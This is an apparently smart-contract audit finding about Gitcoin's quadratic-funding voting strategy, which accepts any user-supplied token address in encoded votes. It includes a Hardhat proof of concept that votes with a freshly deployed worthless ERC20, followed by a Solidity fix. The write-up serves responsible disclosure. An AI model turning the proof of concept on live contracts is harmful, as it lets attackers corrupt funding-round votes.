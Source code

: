 LuchoLeonel1

high

# Anyone can deploy worthless tokens and use them to vote

## Summary
 Anyone can deploy worthless tokens and use them to vote because the token address is sent inside the encodedVotes.

## Vulnerability Detail
I deployed my own ERC20 and used this address to vote, sending it inside the encodedVotes.

Because the QuadraticFundingVotingStrategyImplementation contract doesn't check if the address used for voting is the same as in the Round contract, it emits the event Voted.

In this way, I voted for a project with a worthless token.

**Proof of concept:**
```typescript
  // Deploy new ERC20
  const worthlessERC20 = await MockERC20Factory.connect(player).deploy(1_000_000);
  await worthlessERC20.connect(player).approve(votingStrategy.address, 1_000_000);
  
  const voteTx = await round.connect(player).vote([
       ethers.utils.defaultAbiCoder.encode(
          ["address", "uint256", "address", "bytes32"],
          [
              // Use the token I just created to vote
              worthlessERC20.address,
              1_000_000,
              round.address,
              ethers.utils.hexZeroPad(projectID.toHexString(), 32),
          ]
      )
  ]);

  await expect(voteTx).to.emit(
      votingStrategy, 'Voted'
  ).withArgs(
      // Votes were cast with my token
      worthlessERC20.address,
      1_000_000,
      player.address,
      round.address,
      projectID,
      round.address
  );

  // Now Round contract has my tokens
  expect(await worthlessERC20.balanceOf(round.address)).to.equal(1_000_000);

  await ethers.provider.send("evm_mine", [_currentBlockTimestamp + 1_000]);

  await round.connect(roundOperator).setReadyForPayout();

  // But the Round contract can't even send them to PayoutStrategy contract when the round ends
  expect(await worthlessERC20.balanceOf(round.address)).to.equal(1_000_000);
  expect(await worthlessERC20.balanceOf(payoutStrategy.address)).to.equal(0);

```

## Impact
Although the vote count is done off-chain, anyone can mess it up, and the round operator that calculates them will have the additional work of looking to see if someone used this fraudulent maneuver to vote.

## Code Snippet

**QuadraticFundingVotingStrategyImplementation.sol**
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55-L102](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55-L102)

**IVotingStrategy.sol**
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/IVotingStrategy.sol#L36-L39](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/IVotingStrategy.sol#L36-L39)

## Tool used

Manual Review, Hardhat

## Recommendation
Users should not be able to send any token address within encodedData, but the token to use must be set according to the token address within the Round contract.

**IVotingStrategy.sol**
Add a tokenAddress variable inside IVotingStrategy.sol and when the initialize() function is called set it to the value inside the token variable within the Round contract:

```solidity
    /// @notice Round address
    address public roundAddress;

+   address public tokenAddress;
```

```solidity
function init() external {
    require(roundAddress == address(0), "init: roundAddress already set");
    roundAddress = msg.sender;

+   tokenAddress = RoundImplementation(roundAddress).token();
}
```
**QuadraticFundingVotingStrategyImplementation.sol**

Remove any reference to _votes from encodedVotes and use tokenAddress instead:
```solidity
function vote(bytes[] calldata encodedVotes, address voterAddress) external override payable nonReentrant isRoundContract {

    for (uint256 i = 0; i < encodedVotes.length; i++) {

      (
-       address _token,
        uint256 _amount,
        address _grantAddress,
        bytes32 _projectId
      ) = abi.decode(encodedVotes[i], (
-       address,
        uint256,
        address,
        bytes32
      ));

-     if (_token == address(0)) {
+     if (tokenAddress == address(0)) {
        AddressUpgradeable.sendValue(payable(_grantAddress), _amount);
      } else {
        SafeERC20Upgradeable.safeTransferFrom(
 -        IERC20Upgradeable(_token),
 +        IERC20Upgradeable(tokenAddress),
          voterAddress,
          _grantAddress,
          _amount
        );

      }

      emit Voted(
 -      _token,
 +      tokenAddress,
        _amount,
        voterAddress,
        _grantAddress,
        _projectId,
        msg.sender
      );

    }

  }
```
